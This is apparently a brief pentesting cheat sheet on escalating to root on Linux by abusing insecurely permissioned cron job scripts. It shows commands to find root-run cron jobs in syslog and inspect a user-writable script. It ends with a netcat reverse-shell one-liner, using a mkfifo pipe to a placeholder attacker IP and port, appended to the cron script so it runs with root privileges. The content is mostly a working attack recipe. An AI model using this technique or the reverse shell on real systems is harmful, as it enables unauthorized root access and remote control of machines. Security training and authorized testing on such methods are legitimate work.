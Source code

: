 On a Linux system, the cron time-based job scheduler is a prime target, since system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

# Enumeration
```bash
grep "CRON" /var/log/syslog
```
Example vulnerable log showing root running a script in a user writeable directory:
![image](https://github.com/user-attachments/assets/93cf4552-bb6f-4bb0-b373-e6a84ff5afcf)

## Inspect Content/Permissions of cron job
```bash
ls -lah /home/joe/.scripts/user_backups.sh
```
```bash
cat /home/joe/.scripts/user_backups.sh
```
### Revshell Oneliner
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $(ATTACKER IP) $(PORT) >/tmp/f" >> $(CRONJOB_FILE)
```
